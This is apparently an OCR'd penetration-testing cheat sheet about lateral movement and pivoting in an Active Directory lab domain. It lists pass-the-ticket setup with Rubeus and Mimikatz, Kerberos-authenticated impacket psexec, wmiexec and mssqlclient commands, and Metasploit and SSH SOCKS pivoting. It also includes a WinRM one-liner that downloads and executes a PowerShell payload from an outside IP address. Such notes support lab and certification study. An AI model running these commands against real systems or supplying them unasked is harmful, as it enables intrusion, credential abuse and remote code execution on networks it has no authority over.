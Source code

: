 ### Preparation

export KRB5CCNAME=/tmp/krb5cc_kevin

or

Rubeus PTT

or

Mimikatz PTT

### PsExec
```
python3 impacket/example/psexec.py -k -no-pass norma.branham@m3dc.m3c.local cmd
```
### WinRM
```
invoke-command -computername m3webaw.m3c.local -scriptblock {cmd /c "powershell -ep bypass iex (new-object net.webclient).downloadstring('http://10.10.14.111/runner64.txt')"}
```
### WMI
```
python3 impacket/examples/wmiexec.py -k --no-pass [m3c/]zys@10.9.20.10
```
### SQL
```
python3 impacket/examples/mssqlclient.py -p 1433  -windows-auth m3c/svc_sql@10.10.20.9 -k -no-pass
```
## Pivoting
### Socks

#### MSF
```bash
use socks_proxy

set srvhost 127.0.0.1

run

use autoroute

set session 1

run
```
#### SSH
```bash
ssh root@192.168.90.101 -D 1080
```
#### Chisel
